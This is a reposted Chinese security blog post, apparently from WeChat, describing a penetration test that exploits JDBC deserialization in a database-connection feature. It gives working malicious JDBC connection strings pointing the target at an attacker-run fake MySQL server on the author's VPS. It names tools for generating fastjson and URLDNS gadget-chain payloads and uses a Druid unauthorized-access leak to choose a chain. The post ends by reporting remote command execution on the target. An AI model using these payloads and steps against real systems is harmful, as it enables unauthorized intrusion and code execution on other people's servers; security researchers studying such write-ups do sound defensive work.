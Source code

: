 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkwOTIzODg0MA==&mid=2247491280&idx=1&sn=86a1cb364f0a376f612cac439af73f16

#  一次JDBC反序列化漏洞  
 爱喝酒烫头的曹操   2025-07-06 01:59  
  
在一次测试中遇到了数据库连接功能，这种功能点一般会存在jdbc反序列化漏洞。  
  
特征点：  
  
这种数据库连接点一般会存在jdbc反序列化漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRImMNCIOvuN6toPOus15qZcKgicIdPB82jSCtDkJf9nBM9zS51xnkLLWA/640?wx_fmt=png&from=appmsg "")  
  
  
打法：  
  
先试试打h2不出网利用链。该利用链需要对方服务器导入了h2依赖包才能打。执行ping dnslog命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRICkoTDFUUg0wzvgGicLQEh7xXWs2qwD4cAicIGeKYxbAvza6REwyQGQFw/640?wx_fmt=png&from=appmsg "")  
  
然后测试连接，发送请求，看起来并没有收到dnslog请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI2kvjykt1snpHe4ahPv74x72sZaFk6e3C0PSRibBUyGiaichjBFZta6Ggw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIcdj2u45M3M5rLbecDhVS3aBnhzCCD7h9lpG8JUE6TJiaphAPlyFQnPw/640?wx_fmt=png&from=appmsg "")  
  
  
那就换着打常规的出网利用链。需要用到这个工具。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIpfxaePTbtSs7Gl6CenZJSztwIH0OeAgJUzuE8hMeCGs9Ficp4hrMwvg/640?wx_fmt=png&from=appmsg "")  
  
下载地址：https://github.com/4ra1n/mysql-fake-server/  
  
打个dnslog链，探测是否存在反序列化漏洞。  
  
  
先在自己的vps起一个服务  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRItiaQ7xgZJ4Pjs127z0Z3bl3JVxVl059mcBQ6pRhoqGra97sCErb6wsw/640?wx_fmt=png&from=appmsg "")  
  
在url处写入(目标服务器JDBC Version6.x时使用)  
  
jdbc:mysql://ip:port/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor  
  
（目标服务器JDBC Version8.x时使用)  
  
jdbc:mysql://ip:port/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor  
  
  
用户名处写入要打的urldns地址，密码可以随便写  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI5vRpYsFqyIzViahbGMkxzApabUHf8mZdtXFEUZiaOkZqeu9HMjsZ2yUQ/640?wx_fmt=png&from=appmsg "")  
  
VPS成功收到请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIybrzZYWfxZl5oJtXnHLOzF4hgRO8gqt6wSt2oiaN651eLia6lQ8Ze1KA/640?wx_fmt=png&from=appmsg "")  
  
dnslog收到回显  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI8Yv1Uc94icicNltU9E8OLuua2GTejf6lIw8mVLEzLpJLLu6YaJA13xpA/640?wx_fmt=png&from=appmsg "")  
  
接下来可以试试打可以执行命令的链，例如cc链，cb链等。  
  
但是试了几个下来都没有成功执行命令，就是说目标服务器可能没有导入对应的依赖。（过程省略）  
  
  
刚好bp插件帮我扫到了druid未授权漏洞，可以通过druid未授权看看服务器里的组件有什么，就可以判断打什么链了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIWNQtd992s7gMHGZq1bA9YgBd7khPMCftFBOklib04Pj1axNUU6jgw6g/640?wx_fmt=png&from=appmsg "")  
  
  
服务器导入的是commons-collections-3.2.2.jar版本，相较于之前的版本增加了一个安全检查，所以没办法直接打cc链。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIOWubux9cVJrTJiaDKzV5wsG7zCAyJMBBlXUMibBBpEEJDvPb4KsbxARg/640?wx_fmt=png&from=appmsg "")  
  
目标服务器还有c3p0，但是这个链不太好打jdbc反序列化，需要的前置条件比较多。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIUa21oTY519LXLk3y2c4zpPibibcrxKDuJKgD0KA43B2Oh1AOj9lZUWgg/640?wx_fmt=png&from=appmsg "")  
  
又发现了目标服务器使用了fastjson，看来可以直接打fastjson链了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIz03uUSIdsffJjcxednO7zHzp3cacZliadTsbng47p2yViaI4qqjQdD4g/640?wx_fmt=png&from=appmsg "")  
  
  
使用工具生成fastjson链，执行ping命令  
  
https://github.com/Lotus6/ysoserial  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIiaicQd4x9MZW5vO4BSMeMjOYDrbxF8SHrBEIExMgdD6ficmFaT8yWIxibA/640?wx_fmt=png&from=appmsg "")  
  
  
将base64编码的payload在vps上，这里我放到了test文件里  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIV1MW1kTtPsicTp04W180ysZrB7jqUxrZYYUnYicczcFWcdw1npRL7fvQ/640?wx_fmt=png&from=appmsg "")  
  
  
通过命令再次启动服务  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIwJjpB4GgSSY1PlW7WsiaqFxNEicjQaIqcgYMrSq8twAKFoWZ4tE0qleQ/640?wx_fmt=png&from=appmsg "")  
  
再次创建数据库连接，将用户名处改为deser_CUSTOM  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIYrcyLufCxDZXX5cdicj8qDzJKREz8RK0DVsPYj3HUeco0Q9NFwbafHg/640?wx_fmt=png&from=appmsg "")  
  
  
成功执行ping命令，拿下。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIcwrGsmEwrQzyDLKwnF1VgIpNweljLvPRkic9XRiaDd4wPdr8hvV7Q2MA/640?wx_fmt=png&from=appmsg "")  
  
  
补充：  
  
如果目标没有druid未授权，那么怎么知道目标服务器有什么链可以打呢？  
  
可以通过urldns链判断目标有什么利用链，如果存在某个指定的类，就进行dnslog请求，从而判断服务器有什么链，具体原理这里不细讲，有兴趣的可以看这个文章了解。  
  
https://mp.weixin.qq.com/s/KncxkSIZ7HVXZ0iNAX8xPA  
  
我们可以用珂师傅的工具  
  
https://github.com/kezibei/Urldns  
  
通过该工具生成base64编码的payload  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIXZblBKUWUAoTk6s3aojk6icHDeJibAzYTF6IEyffafwybTic9WWsEYUYQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIw1twj4hgTO7lho4iaQvYU7OZ9s2oHJ7mrCb9o9zMx3UqpCLia9j42cKA/640?wx_fmt=png&from=appmsg "")  
  
和刚才的步骤相同，放到vps上面，过程省略。成功把目标服务器信息回显出来。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIsFaEDIAqtEaibPCfv6ZicibHq0PpGTic6QQuduibAF7fuUz9lwa6FE5mPBw/640?wx_fmt=png&from=appmsg "")  
  
  
